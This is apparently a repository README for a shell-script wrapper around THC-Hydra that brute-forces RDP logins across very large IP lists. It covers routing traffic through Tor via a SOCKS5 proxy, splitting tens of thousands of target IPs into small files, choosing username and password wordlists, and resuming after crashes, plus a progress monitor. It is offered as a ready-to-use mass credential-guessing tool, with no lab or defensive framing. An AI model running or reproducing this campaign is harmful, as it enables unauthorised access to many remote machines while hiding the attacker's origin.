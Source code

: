 # RDP Mass Attack & Monitor

As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.

------------

### Prerequisites:
1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
```bash
./attack.sh <ip-list-location> <dictionary-location>
# example:
./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```